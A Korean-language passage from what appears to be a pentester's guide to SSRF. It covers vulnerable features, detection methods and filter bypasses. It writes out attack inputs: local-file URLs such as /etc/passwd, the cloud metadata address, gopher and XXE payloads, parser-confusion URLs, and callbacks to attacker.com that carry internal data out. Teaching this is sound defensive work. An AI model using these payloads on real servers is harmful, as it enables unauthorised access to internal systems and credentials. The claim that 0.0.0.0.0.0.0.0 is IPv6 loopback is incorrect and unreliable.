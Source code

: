 ### **SSRF에 취약한 일반적인 기능 및 시나리오**

SSRF 취약점은 서버 측 URL 패칭을 포함하는 기능에서 자주 나타납니다.

* **이미지/미디어 패칭:** URL에서 프로필 사진을 가져오는 소셜 미디어 기능, 이미지 프록시 서비스, 썸네일 생성기.
* **URL 미리보기/스크래핑:** 링크 미리보기를 생성하는 기능(예: 채팅 애플리케이션, 콘텐츠 관리 시스템).
* **PDF/문서 생성:** 웹 페이지(URL로 지정)를 PDF 또는 다른 문서 형식으로 변환하는 서비스.
* **웹훅(Webhook) 구성:** 서버가 공격자가 제어하는 엔드포인트로 콜백을 보내야 하는 웹훅 설정.
* **XML 파싱 (XXE를 통한):** XML 외부 엔티티(XXE) 취약점은 외부 엔티티가 임의의 URL을 해석하도록 허용할 경우 SSRF로 이어질 수 있습니다(예: `<!ENTITY xxe SYSTEM "http://internal-server/">`).
* **서버 측 가져오기(Import) 기능:** 사용자가 원격 URL에서 데이터를 가져올 수 있도록 하는 기능(예: 제품 카탈로그 가져오기, RSS 피드).
* **커스텀 URL 해석기/검증기:** 아웃바운드 요청을 하기 전에 URL을 "해석"하거나 "검증"하려는 모든 커스텀 코드.

### **탐지 기법 (펜테스터를 위한)**

SSRF를 탐지하려면 블랙박스 및 화이트박스 테스트를 조합해야 합니다.

#### **1. 블랙박스 테스트 (소스 코드 접근 없이)**

* **URL 입력 지점 식별:** GET/POST 요청에서 URL, 호스트 이름, IP 주소 또는 URL 구성에 사용될 수 있는 데이터를 받아들이는 모든 파라미터를 찾습니다. 여기에는 폼 필드, JSON/XML 파라미터, HTTP 헤더가 포함됩니다.
* **일반적인 내부 IP 주소 및 도메인 테스트:**
    * `127.0.0.1`, `localhost`
    * 루프백 변형: `0.0.0.0`, `0.0.0.0.0.0.0.0` (IPv6 루프백)
    * 로컬호스트 변형: `[::]`, `[::1]`
    * 클라우드 메타데이터 서비스 IP: `169.254.169.254` (AWS, Google Cloud, Azure)
    * 사설 IP 범위: `10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`
* **URL 스킴(Scheme) 실험:**
    * `file://`: 로컬 파일 접근 (예: `file:///etc/passwd`, `file:///C:/Windows/win.ini`).
    * `dict://`: 사전 서비스와 상호작용 (포트 스캔에 사용 가능).
    * `gopher://`: TCP/IP를 통해 임의의 요청을 보낼 수 있음 (일부 방화벽 우회, `POST` 요청에 자주 사용됨).
    * `ftp://`: FTP 서비스 접근.
* **애플리케이션 응답 관찰:** HTTP 상태 코드, 오류 메시지, 응답 시간 또는 페이지 콘텐츠의 변화를 관찰하여 성공적인 내부 요청 또는 타임아웃을 나타내는지 확인합니다.
* **블라인드 SSRF를 위한 아웃오브밴드(OOB) 기법:**
    * 서버가 콘텐츠를 직접 반환하지 않는 경우 OOB 기법을 사용합니다.
    * **DNS 상호작용:** 서버가 공격자가 제어하는 도메인(예: `http://attacker.com/internal_path?data=internal_ip.attacker.com`)을 해석하도록 유도합니다. 타겟 서버 IP로부터의 DNS 쿼리가 여러분의 DNS 로그에 나타나는지 모니터링합니다.
    * **HTTP/HTTPS 콜백:** 여러분이 제어하는 서버(예: `ngrok`, `Burp Collaborator` 또는 간단한 리스너)를 호스팅하고, 타겟 서버가 여러분의 서버로부터 리소스를 요청하도록 유도합니다. 여러분의 서버 접근 로그를 확인합니다.

#### **2. 화이트박스 테스트 / 코드 리뷰 (소스 코드 접근 시)**

* **아웃바운드 요청 함수 식별:** 소스 코드를 검토하여 아웃바운드 네트워크 요청을 수행하는 함수나 라이브러리(예: Python의 `requests`, Java의 `HttpClient`, PHP의 `curl`, Node.js의 `fetch`)를 식별합니다.
* **사용자 입력 추적:** 사용자 제공 입력이 이러한 아웃바운드 요청 함수의 URL 인자에 직간접적으로 영향을 미치는지 데이터 흐름을 추적합니다.
* **검증 로직 분석:** URL 검증 로직을 면밀히 분석합니다. 블랙리스트(우회 가능한 경우가 많음), 불완전한 파싱(예: 스킴만 검증하고 호스트는 검증하지 않음), 논리적 결함 등을 찾습니다.

### **우회 기법 (고급 SSRF 익스플로잇)**

필터링이 적용되어 있더라도, 공격자는 SSRF 방어를 우회하기 위해 다양한 기술을 사용합니다.

* **화이트리스트 우회 기법:** 서버가 특정 허용된 도메인으로만 요청을 허용할 때 사용됩니다.
    * **URL 파싱 불일치:** 다른 URL 파서(브라우저 vs. 서버 측 라이브러리)가 URL을 다르게 해석할 수 있습니다.
        * `http://allowed.com@attacker.com/`: 일부 파서는 `allowed.com`을 호스트로 볼 수 있지만, 다른 파서는 `attacker.com`을 올바르게 식별합니다.
        * `http://allowed.com:80@attacker.com/`: 위와 유사하지만 포트 포함.
        * `http://allowed.com/../attacker.com/`: 호스트 이름에 대한 경로 탐색(path traversal)
    * **URL 단축기/리다이렉트:** 서버가 단축된 URL을 가져올 때, URL 단축기가 내부 IP로 리다이렉트하는 경우.
    * **DNS 리바인드 공격:** 서버가 도메인을 허용된 외부 IP로 해석하지만, (Keep-alive 연결 등으로 인해) 두 번째 DNS 조회 시 DNS 엔트리가 내부 IP를 가리키도록 변경되는 경우.
    * **IPv6 대 IPv4:** IPv4만 필터링하는 경우, IPv6 주소(예: `[::1]` for `localhost`)를 사용하여 우회.
    * **인코딩 트릭:** 이중 URL 인코딩(`%250a`), 널 바이트(`%00`) 또는 줄 바꿈(`%0a`)을 사용하여 파서를 속이는 방식.
* **블랙리스트 우회 기법:** 덜 강력하지만 일반적으로 시도됩니다.
    * `localhost`의 변형 사용: `127.0.0.1`, `[::]`, `[::1]`, `0`, `0.0.0.0`, `127.0.0.1.xip.io`.
    * 허용된 외부 사이트의 리다이렉터를 이용.